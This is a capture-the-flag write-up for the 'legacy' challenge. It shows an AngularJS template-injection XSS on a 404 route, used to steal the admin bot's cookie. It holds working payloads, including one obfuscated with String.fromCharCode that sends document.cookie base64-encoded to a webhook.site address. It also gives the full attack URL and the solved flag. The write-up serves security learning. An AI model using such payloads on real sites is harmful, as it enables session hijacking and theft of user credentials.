

# legacy
> Just because it's legacy doesn't mean its not on the internet

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin



And another website that using AngularJS


## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `helloworld.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var myApp = angular.module('helloworld', ['ui.router']);

myApp.config(function($stateProvider) {
  var helloState = {
    name: 'hello',
    url: '/hello',
    template: '<h3>hello world!</h3>'
  }

  var aboutState = {
    name: 'about',
    url: '/about',
    template: '<h3>Its the UI-Router hello world app!</h3>'
  }

  var indexState = {
    name: 'index',
    url: '/',
    template: '<h3>Index</h3>'
  }

  template = document.createElement("span")
  template.innerHTML = "<h3>404</h3>path not found: "
  sanitizer = document.createElement("code")
  sanitizer.innerText = document.location
  template.appendChild(sanitizer)
  var f04State = {
    name: '404',
    url: '/404',
    template: template.innerHTML
  };

  $stateProvider.state(helloState);
  $stateProvider.state(aboutState);
  $stateProvider.state(indexState);
  $stateProvider.state(f04State);
});

myApp.config(["$locationProvider","$urlRouterProvider", function($locationProvider,$urlRouterProvider) {
  $locationProvider.html5Mode(true);
  console.log($urlRouterProvider);
  $urlRouterProvider.otherwise('/404');
}]);
```

As you can see, we can input the payload in the 404 page. So Im using this angular payload to solve this chall (Im using [Portswigger cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter)) as a reference)

```angular
{{$on.constructor('alert(1)')()}}
```

And in order to obtain the flag, we need to change the payload like this

```angular
{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

At first, I was using a normal payload to send the cookie to my webhook. However, the website kept encoding my payload. As a result, I decided to use `String.fromCharCode` to address this issue. Here is the final URL structure that I came up with:

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

Check your webhook, and you will see base64 encoded msg in `cookie` parameter


```
SECFEST{L3g4cy_l3@k_w1th_0ld_cOd3_Tw3Ak}
```